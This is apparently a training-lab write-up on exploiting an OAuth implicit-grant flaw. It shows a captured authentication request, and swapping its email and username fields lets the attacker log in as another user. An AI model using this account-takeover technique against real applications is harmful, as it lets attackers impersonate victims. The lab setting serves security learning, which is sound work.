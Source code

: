 With this lab we learn about inherent security implications of using implicit grant type for an application where tokens are passed to the client which subsequently uses that for login the user to the application

Flow of the lab is like this:

1. Click on login with social media
2. This will trigger a authorize request to the authorization server: https://acd41f2a1e7fa13f8095024a02e5002e.web-security-academy.net/auth?client_id=<client_id>&redirect_uri=<redirect_uri>&response_type=token&nonce=894724906&scope=openid%20profile%20email
3. After this we are taken to social media signin page. We would enter the creds as wiener/peter and click on sign-in.
4. Wiener logged in to the authorization server and get a Authorize page. requesting the access to profile and email. If you notice the url we are still interacting with authorization server
5. Click on Authorize. This triggers a multiple back and forth request where authorization server sends the token to the client and client uses that token to log the user in
6. Request to authenticate the user using the token(**this is where vulnerability is**). 
```
POST /authenticate HTTP/1.1
Host: ac4b1f611e36a1d2807c027700f90049.web-security-academy.net
Connection: close
Content-Length: 103
Accept: application/json
Content-Type: application/json
Origin: https://ac4b1f611e36a1d2807c027700f90049.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac4b1f611e36a1d2807c027700f90049.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=0hvjvGdwD7YRSgtQ7xXqODSewMnzZ9xF

{"email":"wiener@hotdog.com","username":"wiener","token":"XKONneZF-Ecm9-f4wfn-JnPZRIXzM0DZ1S6NhJpNvc0"}
```
7. Application *does not matches the access token angainst the username and email*. So changing the email to **carlos@carlos-montoya.net** and username to carlos. logs us in as carlos
